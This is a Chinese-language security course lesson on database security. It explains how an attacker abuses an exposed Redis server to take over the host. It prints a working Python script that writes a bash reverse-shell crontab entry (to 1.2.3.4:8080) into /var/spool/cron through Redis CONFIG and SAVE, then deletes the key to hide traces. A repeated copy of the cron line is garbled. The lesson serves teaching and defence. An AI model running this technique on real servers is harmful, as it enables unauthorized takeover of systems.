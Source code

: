 # 16 | 数据库安全：数据库中的数据是如何被黑客拖取的？

    你好，我是何为舟。

说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的SQL语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。

那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？

今天，我就以两种比较常见的数据库Redis和MySQL为例，来和你一起探讨数据库的安全。

## Redis安全

我们首先来看Redis。我们都知道，Redis是一个高性能的KV结构的数据库。Redis的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。

那在安全性不高的情况下，黑客连入Redis能做什么呢？最直接的，黑客能够任意修改Redis中的数据。比如，通过一个简单FLUSHALL命令，黑客就能够清空整个Redis的数据了。

复杂一些的，黑客还可以发起权限提升，通过Redis在服务器上执行命令，从而控制整个服务器。但是，Redis本身不提供执行命令的功能，那么黑客是如何让Redis执行命令的呢？我们一起来看一下具体的代码流程。

```
r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.2.3.4/8080 0>&1\n\n'
path = '/var/spool/cron'
name = 'root'
key = 'payload'
r.set(key, payload)
r.config_set('dir', path)
r.config_set('dbfilename', name)
r.save()
r.delete(key)  # 清除痕迹
r.config_set('dir', '/tmp')

```

针对这个过程，我来详细解释一下，你可以结合代码来看。

*   黑客连入Redis。
*   黑客写入一个任意的Key，对应的Value是想要执行的命令，并按照Crontab的格式进行拼接。代码如下：

```
*/1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1

```

*   黑客调用config\_set方法，就是通过Redis的CONFIG命令，将Redis数据持久化的目录修改成/var/spool/cron。
*   黑客调用save方法，通过Redis的SAVE命令，发起Redis的数据持久化功能。最终，Redis将数据写入到/var/spool/cron中。写入的文件效果如下：

![](https://static001.geekbang.org/resource/image/6e/81/6e78c556b7f2d5d5c4fc0d1d5bd93281.png)

*   Crontab对于无法解析的数据会直接跳过，因此，开头和结尾的乱码不会影响Crontab的执行。最终，Crontab会执行到Value中对应的命令。

这样一来，黑客就“聪明”地利用Redis保存文件的功能，修改了Crontab，然后利用Crontab执行了命令。

那么，我们该如何对Redis进行安全防护呢？这里就需要提到我们前面讲过的“黄金法则”和“最小权限原则”了。
